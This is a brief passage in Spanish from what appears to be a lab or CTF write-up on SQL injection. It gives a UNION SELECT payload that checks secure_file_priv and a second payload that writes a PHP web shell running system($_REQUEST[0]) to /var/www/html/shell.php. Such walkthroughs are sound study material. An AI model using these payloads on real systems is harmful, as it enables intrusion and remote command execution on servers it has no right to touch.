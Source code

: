 Vemos que tenemos permiso en **FILE** y eso indica que puede tanto escribir y leer en el backend. Comprobamos **secure\_file\_priv** si podemos escribir datos.

```
'+UNION+SELECT+1,2,3,+variable_name,+variable_value+FROM+information_schema.global_variables+where+variable_name%3d"secure_file_priv"--+-
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Eso significa que podemos escribir datos por lo que hacemos una web shell.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/shell.php'--+-
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
